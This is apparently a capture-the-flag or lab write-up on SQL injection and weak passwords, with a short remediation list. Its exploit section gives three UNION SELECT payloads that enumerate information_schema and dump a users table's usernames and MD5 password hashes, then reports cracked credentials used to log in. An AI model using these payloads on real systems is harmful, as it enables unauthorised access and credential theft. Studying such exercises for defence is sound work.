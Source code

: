 # SQL injection and weak passwords

## Exploit
In the earlier SQL exploits we looked at the columns in the information schema. [Let's look at the tables this time](https://dev.mysql.com/doc/mysql-infoschema-excerpt/5.7/en/information-schema-tables-table.html)
On the member page:

```SQL
1=1 UNION SELECT table_schema, table_name FROM information_schema.columns       # Member_Brute_Force looks interesting
1=1 UNION SELECT table_schema, column_name FROM information_schema.columns      # it contains: id username password
1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default          # Bingo!
```
We can see three users, a garbage one and two interesting ones, we decrypt their md5 password and we get `root:shadow` and `admin:shadow`.

We now can log in `${URL}/index.php?page=signin`

## Fix
- Use prepared SQL queries, refer to the other SQL exploits
- Don't use MD5
- Use [Strong passwords](https://en.wikipedia.org/wiki/Password_strength#Random_passwords)

